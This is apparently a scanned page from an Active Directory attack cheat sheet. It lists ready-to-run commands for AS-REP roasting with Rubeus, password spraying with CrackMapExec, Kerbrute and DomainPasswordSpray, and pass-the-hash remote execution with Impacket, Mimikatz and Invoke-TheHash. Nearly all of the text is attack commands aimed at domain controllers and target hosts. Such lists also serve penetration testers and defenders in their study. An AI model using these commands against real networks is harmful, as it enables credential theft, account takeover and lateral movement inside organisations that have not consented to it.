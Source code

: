 #### **Windows:**
```powershell
# Rubeus
.\Rubeus.exe asreproast /outfile:asrep_hashes.txt
.\Rubeus.exe asreproast /user:username /outfile:asrep_hashes.txt
```

### **3. Password Spraying**

#### **Linux:**
```bash
# CrackMapExec
crackmapexec smb DC_IP -u users.txt -p passwords.txt
crackmapexec smb DC_IP -u users.txt -p 'Password123!' --continue-on-success

# Kerbrute
kerbrute passwordspray -d domain.com users.txt 'Password123!'
```

#### **Windows:**
```powershell
# DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Password123!
Invoke-DomainPasswordSpray -UserList users.txt -Password Password123!
```

---

## 🎭 **Pass Attacks**

### **1. Pass-the-Hash**

#### **Linux:**
```bash
# CrackMapExec
crackmapexec smb TARGET_IP -u username -H NTLM_HASH
crackmapexec smb TARGET_IP -u username -H NTLM_HASH -x "whoami"

# Impacket
psexec.py -hashes :NTLM_HASH username@TARGET_IP
wmiexec.py -hashes :NTLM_HASH username@TARGET_IP
smbexec.py -hashes :NTLM_HASH username@TARGET_IP
```

#### **Windows:**
```powershell
# Mimikatz
sekurlsa::pth /user:username /domain:domain.com /ntlm:NTLM_HASH

# Invoke-TheHash
Invoke-SMBExec -Target TARGET_IP -Username username -Hash NTLM_HASH -Command "whoami"
```
